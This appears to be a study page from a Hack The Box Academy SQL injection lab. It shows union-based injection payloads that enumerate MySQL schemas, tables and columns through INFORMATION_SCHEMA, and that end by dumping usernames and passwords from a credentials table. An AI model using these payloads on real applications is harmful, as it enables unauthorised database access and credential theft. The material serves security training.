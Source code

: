 # Database Enumeration

## INFORMATION\_SCHEMA Database

The [INFORMATION\_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server.

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA

[SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server. It is used to obtain database names so we can then query them.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_dbs.png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION select 1,database(),2,3-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/db_name.jpg" alt=""><figcaption></figcaption></figure>

## TABLES

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_tables_1.jpg" alt=""><figcaption></figcaption></figure>

## COLUMNS

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_columns_1.jpg" alt=""><figcaption></figcaption></figure>

## Data

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_credentials_1.png" alt=""><figcaption></figcaption></figure>





